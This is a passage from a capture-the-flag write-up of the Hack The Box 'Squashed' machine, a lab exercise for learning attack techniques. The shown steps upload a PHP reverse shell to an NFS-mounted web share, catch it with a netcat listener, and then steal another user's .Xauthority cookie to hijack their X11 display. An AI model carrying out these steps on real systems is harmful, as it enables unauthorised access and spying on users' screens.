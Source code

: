 and see if we have access to the share -- we do! 
```sh-session
ls -la /mnt/webshare

total 56
drwxr-xr-- 5 webshare-squasher www-data  4096 Mar 14 10:00 .
drwxr-xr-x 6 root              root      4096 Mar 14 09:43 ..
drwxr-xr-x 2 webshare-squasher www-data  4096 Mar 14 10:00 css
-rw-r--r-- 1 webshare-squasher www-data    44 Oct 21 06:30 .htaccess
drwxr-xr-x 2 webshare-squasher www-data  4096 Mar 14 10:00 images
-rw-r----- 1 webshare-squasher www-data 32532 Mar 14 10:00 index.html
drwxr-xr-x 2 webshare-squasher www-data  4096 Mar 14 10:00 js
```

Let's upload a php reverse shell and get user. I like using [revshells.com](http://revshells.com) to generate shells, but you can use your favorite tool. :smile:

Copy the shell to the webshare, spin up a netcat listener, and access the file using curl!

_Step 1: Netcat listener._
```sh-session
nc -lvnp <YOUR_PORT>
```
_Step 2: Request the file from another tab._
```sh-session
curl http://squashed.htb/shell.php
```
Soon after that, we have a shell!
![Webshell]({{site.baseurl}}/assets/img/squashed/shell.png)

# Path To Root
To gain root access, we have to exploit X11. X11 is a communications protocol. It allows applications to create objects like windows, buttons, and menus. To learn more about X11, check out [this](https://unix.stackexchange.com/questions/276168/what-is-x11-exactly) thread. 

Looking back on Ross's share, we see `.Xauthority` and `.xsession`. These indicate that a X11 display might be configured. 
`.Xauthority` is used to store credentials, but its bytes can be quite weird so we should base64 encode them to interact with them. 

```sh-session
cat /mnt/ross/.Xauthority | base64 
```
Paste the cookie onto the target machine, decode it, and place it in the `/tmp` directory.
```sh-session
echo "AQAADHNxdW<SNIP>" | base64 -d > /tmp/.Xauthority
```
Then set the cookie by using the `XAUTHORITY` environment variable.
```sh-session
export XAUTHORITY=/tmp/.Xauthority
```

Now we can interact with the X11 display using Ross' session. Our goal is to see what's happening on the display. Before we can do that, we have to know where our display is located. We can figure that out by using the `w` command. As seen below, we can use the `:0` display. 
```sh-session
w

 14:10:18 up 40 min,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               13:30   40:07   4.86s  0.04s /usr/libexec/gnome-session-binary --systemd --session=gnome
```
We can now use the `xwd` command to take a screenshot and place the result in the `/tmp` directory. 
